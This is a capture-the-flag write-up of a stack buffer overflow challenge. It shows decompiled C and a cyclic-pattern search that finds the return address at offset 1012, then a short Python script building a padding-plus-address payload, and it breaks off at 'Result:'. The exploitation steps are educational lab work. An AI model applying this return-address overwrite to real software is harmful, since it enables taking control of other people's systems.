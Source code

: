 ```c
int prog()
{
  char v1; // [esp+8h] [ebp-3F0h]


  get_name(&v1);
  return printf("Hello Mr.%s\n", &v1);
}
```
The C code has nothing interesting, so I have to write it myself.

## ACTUAL ANALYSIS AND EXPLOITATION BEGINS HERE

### I need to know if there is space to write a shellcode:

I can see it from the Assembly code to the "prog()" function:

<img src="/site/posts/cyber-challenge/static/shell-assembly.png" width="70%" height="70%" align="center" class="center">
The stack is assigned 0x3f8 bytes of space for the variables.

```bash
cereal@killer-VirtualBox:~/Desktop/challenge/l0ngl0ng$ ipython
Python 2.7.12 (default, Nov 12 2018, 14:36:49) 
Type "copyright", "credits" or "license" for more information.


IPython 2.4.1 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.


In [1]: 0x3f8
Out[1]: 1016
```
So 1016 bytes, It's definitely enough space.
### I need to know if I can take control of the return address:
I can make it with a “Cyclic” string:

<img src="/site/posts/cyber-challenge/static/shell-string.png" width="70%" height="70%" align="center" class="center">

```bash
cereal@killer-VirtualBox:~/Desktop/challenge/shellcode$ cyclic -l 0x6b616164
1012
```
The cyclic query confirms that the return address has been overwritten with part of my string. Exactly after 1012 bytes (or characters).
I can write a small script to test it:
```python
import struct, sys

junk = "B"*1012
jmp_address = struct.pack("<I", 0x41414141)
payload = junk+jmp_address
print(payload)
```
Result:
